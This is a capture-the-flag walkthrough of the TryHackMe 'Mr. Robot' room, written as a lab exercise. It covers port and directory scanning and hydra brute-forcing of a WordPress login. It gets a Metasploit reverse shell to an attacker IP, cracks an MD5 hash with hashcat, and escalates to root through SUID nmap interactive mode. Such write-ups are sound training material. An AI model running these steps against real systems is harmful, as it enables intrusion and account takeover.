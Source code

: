 # MrRobot

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [Mr. Robot](https://tryhackme.com/room/mrrobot).

Connect to tryhackme via openvpn e.g.: ```sudo openvpn 0xfab1.ovpn```

Please note:

- Flags are not fully written to avoid copy & paste ;)
- I used an SSH-Tunnel in case you are wondering why I have "localhost" instead of an IP mentioned.

## Flag 1

Let's have a look at the environment:

```sh
IP="10.10.236.216"
nmap -sC -sV $IP
nikto -h $IP
```

Since there is a php based website served on port 80 and 443 via apache let us have a look at the available folders:

```sh
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$IP:80
```

We can see a lot of folders and that there is a wordpress login page.

Further things we can check:

- View html/css/js source -> nothing special
- View links on page -> text, videos, nothing special (but cool theme)
- View robots.txt -> first flag :)

In the robots.txt we find the first key ($IP/key-1-of-3.txt) and a dictionary file (probably for wordpress login @ $IP/login).

## Flag 2

Let's download the dictionary file "fsocity.dic" and have a look:

```sh
wget $IP/fsocity.dic
```

The file seems to be a password list but there are a lot of redundant entries. If we want to use this to brute-force login to the word-press admin portal we should remove all duplicate entries. We can use ```uniq``` for this but uniq expects a sorted list so we run the following:

```sh
sort fsocity.dic | uniq > uniqfsocity.dic
```

We can use hydra to brute-force http-post-form on the wordpress login page to find out the username. In case we get a "Invalid" the attempt failed.

```sh
hydra -L uniqfsocity.dic -p something $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid"
```

We find out the username "Elliot" is valid and abort hydra. Now let's use the same dictionary again to brute-force the password of Elliot. If a correct user logs in with an invalid password we can use "incorrect" as false trigger.

```sh
hydra -l Elliot -P uniqfsocity.dic -t 64 $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect."
```

This unfortunately takes some time but after a while we get the correct password for Elliot: ER28-0652

With access to the wordpress backend we can start Metasploit to exploit wordpress for a reverse shell:

```sh
msfdb init
msfconsole
db_nmap -sV 10.10.236.216
search wp
use exploit/unix/webapp/wp_admin_shell_upload
show options
set PASSWORD ER28-0652
set USERNAME Elliot
set RHOST 10.10.236.216
set LHOST 10.9.193.173
set LPORT 6666
show options
exploit
```

Unfortunantly I get an error running this saying wordpress is not available.
After seaching the web I find out possibly we can just ignore those errors in the used script. So lets open the script and comment out what stops the script and see what happens:

```sh
locate wp_admin_shell_upload  
sudo nano /usr/share/metasploit-framework/modules/exploits/unix/webapp/wp_admin_shell_upload.rb # comment out def exploit -> #fail_with
```

and run the exploit once more:

```sh
reload
exploit
```

I now get a new error so i just comment out all "fail_with" after "def exploit" and re-run the exploit once more:

```sh
reload
show options
exploit
```

Finally the exploit works and we have a reverse shell :)
Now let's look around:

```sh
meterpreter > ls
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 02:28:21 -0500  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 02:28:21 -0500  password.raw-md5
```

We see key 2 "key-2-of-3.txt" but can't access it. However, we can access "password.raw-md5":

```sh
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

This looks like the hashed password of user "robot". Let's find out what hash type is used by running ```hash-identifier```.

```sh
hash-identifier c3fcd3d76192e4007dfb496cca67e13b

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Let's crack the MD5 hash with ```hashcat``` using the rockyou password list.

```sh
hashcat -m0 --force c3fcd3d76192e4007dfb496cca67e13b /home/0xfab1/rockyou.txt

Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /home/0xfab1/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 3 secs

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Guess.Base.......: File (/home/0xfab1/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   313.5 kH/s (0.32ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344384 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 36864/14344384 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: hockey5 -> loser69
```

The password for robot is abcdefghijklmnopqrstuvwxyz.
So back to the reverse shell and lets login as user "robot":

```sh
meterpreter > shell
Process 2226 created.
Channel 4 created.
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su -l robot
su -l robot
Password: abcdefghijklmnopqrstuvwxyz
cat /home/robot/key-2-of-3.txt
```

We now have access to "key-2-of-3.txt".

## Flag 3

Now as robot let us have a look at what we are allowed to do:

```sh
find / -user root -perm -4000 2>/dev/null

/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

We can exploit nmap (/usr/local/bin/nmap) with a vulnerability in the interactive mode since nmap is running with root privileges but we can trigger it as user robot:

```sh
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
cd /root
ls
firstboot_done  key-3-of-3.txt
cat key-3-of-3.txt
```

And there we have flag 3.
